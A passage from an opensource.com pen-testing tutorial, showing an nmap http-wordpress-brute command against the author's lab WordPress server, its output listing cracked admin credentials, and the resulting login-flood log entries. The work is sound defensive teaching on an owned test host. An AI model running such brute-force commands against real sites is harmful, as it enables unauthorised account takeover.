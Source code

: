 The Valid Combinations Found section near the end contains the admin username and password. It took only two minutes to go through 3,231 lines.

I have another dictionary file with 3,238,659,984 unique entries, which would take much longer and leave a lot more evidence.

Using Nmap produces a result much faster:


```
┌──(root💀kali)-[~]
└─# nmap -sV --script http-wordpress-brute --script-args userdb=users.txt,passdb=password.txt,threads=6 vulnerable.usersys.redhat.com
Starting Nmap 7.91 ( <https://nmap.org> ) at 2021-02-18 20:48 EST
Nmap scan report for vulnerable.usersys.redhat.com (10.19.47.242)
Host is up (0.00015s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.37 ((Red Hat Enterprise Linux))
|_http-server-header: Apache/2.4.37 (Red Hat Enterprise Linux)
| http-wordpress-brute:
|   Accounts:
|       admin:redhat - Valid credentials              &lt;&lt;&lt;&lt;&lt;&lt;&lt;
|       pgervase:redhat - Valid credentials         &lt;&lt;&lt;&lt;&lt;&lt;&lt;
|_  Statistics: Performed 6 guesses in 1 seconds, average tps: 6.0
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version     port/proto  service
|   100000  2,3,4       111/tcp   rpcbind
|   100000  2,3,4       111/udp   rpcbind
|   100000  3,4         111/tcp6  rpcbind
|_  100000  3,4         111/udp6  rpcbind
3306/tcp open  mysql   MySQL 5.5.5-10.3.27-MariaDB
MAC Address: 52:54:00:8C:A1:C0 (QEMU virtual NIC)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
```

However, running a scan like this can leave a flood of HTTPD logging messages on the target system:


```
10.19.47.170 - - [18/Feb/2021:20:14:01 -0500] "POST /wp-login.php HTTP/1.1" 200 7575 "<http://vulnerable.usersys.redhat.com/>" "WPScan v3.8.10 (<https://wpscan.org/>)"
10.19.47.170 - - [18/Feb/2021:20:14:00 -0500] "POST /wp-login.php HTTP/1.1" 200 7575 "<http://vulnerable.usersys.redhat.com/>" "WPScan v3.8.10 (<https://wpscan.org/>)"
10.19.47.170 - - [18/Feb/2021:20:14:00 -0500] "POST /wp-login.php HTTP/1.1" 200 7575 "<http://vulnerable.usersys.redhat.com/>" "WPScan v3.8.10 (<https://wpscan.org/>)"
10.19.47.170 - - [18/Feb/2021:20:14:00 -0500] "POST /wp-login.php HTTP/1.1" 200 7575 "<http://vulnerable.usersys.redhat.com/>" "WPScan v3.8.10 (<https://wpscan.org/>)"
10.19.47.170 - - [18/Feb/2021:20:14:00 -0500] "POST /wp-login.php HTTP/1.1" 200 7575 "<http://vulnerable.usersys.redhat.com/>" "WPScan v3.8.10 (<https://wpscan.org/>)"
10.19.47.170 - - [18/Feb/2021:20:14:00 -0500] "POST /wp-login.php HTTP/1.1" 200 7575 "<http://vulnerable.usersys.redhat.com/>" "WPScan v3.8.10 (<https://wpscan.org/>)"
10.19.47.170 - - [18/Feb/2021:20:14:02 -0500] "POST /wp-login.php HTTP/1.1" 200 7575 "<http://vulnerable.usersys.redhat.com/>" "WPScan v3.8.10 (<https://wpscan.org/>)"
10.19.47.170 - - [18/Feb/2021:20:14:02 -0500] "POST /wp-login.php HTTP/1.1" 200 7575 "<http://vulnerable.usersys.redhat.com/>" "WPScan v3.8.10 (<https://wpscan.org/>)"
10.19.47.170 - - [18/Feb/2021:20:14:02 -0500] "POST /wp-login.php HTTP/1.1" 200 7575 "<http://vulnerable.usersys.redhat.com/>" "WPScan v3.8.10 (<https://wpscan.org/>)"
```


[#]: subject: (Pen testing with Linux security tools)
[#]: via: (https://opensource.com/article/21/5/linux-security-tools)
[#]: author: (Peter Gervase https://opensource.com/users/pgervase)
[#]: collector: (lujun9972)
[#]: translator: (MjSeven)
[#]: reviewer: ( )
[#]: publisher: ( )
[#]: url: ( )
[a]: https://opensource.com/users/pgervase
[b]: https://github.com/lujun9972
[1]: https://opensource.com/sites/default/files/styles/image-full-size/public/lead-images/find-file-linux-code_magnifying_glass_zero.png?itok=E2HoPDg0 (Magnifying glass on code)
[2]: https://www.kali.org/
[3]: https://opensource.com/sites/default/files/uploads/kali-tools.png (Kali's tools)
[4]: https://creativecommons.org/licenses/by-sa/4.0/
[5]: https://wpscan.com/wordpress-security-scanner
[6]: https://www.redhat.com/sysadmin/using-nmap-harden-systems
[7]: https://opensource.com/sites/default/files/uploads/nmap-scan.png (Nmap scan)
[8]: https://opensource.com/sites/default/files/uploads/nmap-port80.png (Nmap scan of port 80)
[9]: https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-40r3.pdf%5D(https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-40r3.pdf
[10]: https://www.redhat.com/sysadmin/how-red-hat-insights
[11]: https://en.wikipedia.org/wiki/Armitage_(computing)
[12]: https://access.redhat.com/security
[13]: https://www.redhat.com/en/blog/channel/security
[14]: https://www.nist.gov/cybersecurity